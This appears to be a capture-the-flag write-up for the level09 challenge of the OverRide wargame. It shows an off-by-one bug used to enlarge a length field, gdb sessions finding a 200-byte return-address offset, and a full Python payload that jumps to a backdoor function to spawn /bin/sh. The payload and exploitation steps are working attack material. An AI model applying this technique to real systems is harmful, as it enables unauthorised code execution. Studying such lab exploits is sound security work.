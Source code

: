 After analyzing the program, we see that the `main` call the function `handle_msg`. This function use a struct that contain a 140 char message, a 40 char username, and a number that represent the max length of the message, it should looks like this :
[Message][username][number hard coded to 140]
[140 char][40 char][the number 140]

But the function `set_username` allow use to copy 41 char :
`for ( i = 0; i <= 40 && s[i]; ++i )`
And since we start copying the username at the index `140` (from the start of the struct) we can write until the index `181`

So we can change the low order part of the number and change 140 : `0x8c` to the max we can put `0xff`

Since the max length of the message is set from the number at the index `180` from the start of the struct.
We can now write a message of `255` char long and overflow the struct.
Let's try to put 40 char to fill the buffer and a the char `\xff` at the end to find the offset to `eip` using [wiremask](https://wiremask.eu/tools/buffer-overflow-pattern-generator/)

```
(gdb) r <<< "$(python -c 'print "a" * 40 + "\xff" + "\n" + "Aa0Aa1Aa2Aa3Aa4Aa5Aa
6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2A
d3Ad4Ad5Ad6Ad7Ad8Ad9Ae0Ae1Ae2Ae3Ae4Ae5Ae6Ae7Ae8Ae9Af0Af1Af2Af3Af4Af5Af6Af7Af8Af9
Ag0Ag1Ag2Ag3Ag4Ag5Ag6Ag7Ag8Ag9Ah0Ah1Ah2Ah3Ah4Ah5Ah6Ah7Ah8Ah9Ai0Ai1Ai2A"')"
Starting program: /home/users/level09/level09 <<< "$(python -c 'print "a" * 40 +
 "\xff" + "\n" + "Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac
0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2Ad3Ad4Ad5Ad6Ad7Ad8Ad9Ae0Ae1Ae2Ae3Ae4Ae5Ae6A
e7Ae8Ae9Af0Af1Af2Af3Af4Af5Af6Af7Af8Af9Ag0Ag1Ag2Ag3Ag4Ag5Ag6Ag7Ag8Ag9Ah0Ah1Ah2Ah3
Ah4Ah5Ah6Ah7Ah8Ah9Ai0Ai1Ai2A"')"
--------------------------------------------
|   ~Welcome to l33t-m$n ~    v1337        |
--------------------------------------------
>: Enter your username
>>: >: Welcome, aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa>: Msg @Unix-Dude
>>: >: Msg sent!

Program received signal SIGSEGV, Segmentation fault.
0x0000555555554931 in handle_msg ()
(gdb) x/1w $rsp
0x7fffffffe5c8: 0x37674136
```

Since we are on 64-bit the return address is in `$rsp`
Putting this in [wiremask](https://wiremask.eu/tools/buffer-overflow-pattern-generator/) give us an offset of `200`

Now that we have the offset, we get the address of the function `secret_backdoor` that allow use to launch a command

```
(gdb) start
The program being debugged has been started already.
Start it from the beginning? (y or n) y
Temporary breakpoint 2 at 0x555555554aac
Starting program: /home/users/level09/level09
warning: no loadable sections found in added symbol-file system-supplied DSO at 0x7ffff7ffa000

Temporary breakpoint 2, 0x0000555555554aac in main ()
(gdb) p secret_backdoor
$2 = {<text variable, no debug info>} 0x55555555488c <secret_backdoor>
```

Address of `secret_backdoor` : `0x55555555488c`
In little-endian : `\x8c\x48\x55\x55\x55\x55\x00\x00`

Let's recap
1 part : username (override that we use to overwrite the number) `"a" * 40 + "\xff"`
2 part : Our offset and the address which we will write `"a" * 200 + "\x8c\x48\x55\x55\x55\x55\x00\x00"`
3 part : the command that will be execute with `system` : `"/bin/sh"`

on assemble le tout : `python -c 'print "a"*40 + "\xff" + "\n" + "a"*200 + "\x8c\x48\x55\x55\x55\x55\x00\x00" + "\n" + "/bin/sh"'`

```Shell
level09@OverRide:~$ python -c 'print "a" * 40 + "\xff" + "\n" + "a" * 200 + "\x8c\x48\x55\x55\x55\x55\x00\x00" + "\n" + "/bin/sh"' > /tmp/exploit
level09@OverRide:~$ cat /tmp/exploit - | ./level09
--------------------------------------------
|   ~Welcome to l33t-m$n ~    v1337        |
--------------------------------------------
>: Enter your username
>>: >: Welcome, aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa�>: Msg @Unix-Dude
>>: >: Msg sent!
whoami
end
```
